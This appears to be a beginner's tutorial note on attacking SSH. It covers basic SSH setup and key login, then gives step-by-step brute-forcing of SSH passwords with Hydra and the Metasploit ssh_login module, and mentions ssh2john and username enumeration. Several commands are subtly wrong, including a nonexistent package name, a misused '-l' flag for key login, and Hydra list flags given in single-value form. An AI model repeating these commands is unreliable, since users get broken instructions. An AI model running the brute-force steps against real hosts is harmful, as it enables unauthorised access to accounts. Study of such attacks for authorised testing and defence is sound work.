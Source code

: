 ## SSH Exploititng
 - ### **SSH** *stands for secure shell that allows to gain computer shell across the network*
 - It use port 22
 - If you went to ssh in your Linux first download `openssh-service`
 ```shell
sudo apt install openssh-service
 ```
 - To start ur ssh simply in your terminal type
 ``` shell
 sudo systemctl start ssh | service ssh start
 ```
## SSH Login
<hr>

 - *There are two ways of  autentication  method to got*
 > # Id RSA
 > It use private  and public key to connect the shell
 > To generate private and pulic key on your computer
 ``` shell
 sudo ssh-keygen
 ```
 >  *This command generate private and public key name in your .ssh directory named **id_rsa** and **Id_rsa.pub** respectivily*
> If u have private key you able to login on your remote machine
``` shell
ssh -l id_rsa@ip_addres(of remote computer)
```
> - When we generate private and public idrsa it ask password (optional)
> - when we going to login with ssh it maybe required
> - To Brute force password using IdRSA we use `ssh2john`
> - This script help you find the hashed password
>
># Using Username and password
> - This method is only using password and username of remote shell.
``` shell
ssh username@ip_addr
```
> - Example ``` ssh hanter@129.168.2.12 ```
> - and fill your password after hited on Enter

# Exploits
- There are alot of way to Exploit /  Bruteforce the ssh
- In this note we use Hydra and Metasploit to connect / Brute force username and password
## using hydra
- **Hydra is one of the most poular tool to bruteforce the online passwods**
- *hydar use usernaem and password to brute force the login*
- you need to preoare password and username list
- ### ✔ To be fast instead of making username list first cheek or identify the username or use `enum4linux` tool to enumrate the username of machine
``` shell
hydra -l username.txt -p password.txt ssh://127.0.0.1
```
- Hydra not only use for shh it also use ftp server to crack password
## using Metasploit
> - Using Metasploit frame work it we can bruteforce the  password
> - star the metasploit Frame work using command ```msfconsole```
> - And search auxiliary
``` shell
search auxiliary/scanner/ssh/ssh_login
```
> - And use it by using `use` command
### Requirements
- set rhost = remote machine ip
``` shell
set RHOST 127.0.0.1
```
- set username   = Username of the machine using wordlistt
``` shell
set user_file
```
- set password file
``` shell
set pass_file
```
- And Finally Run/Exploit
``` shell
exploit
```

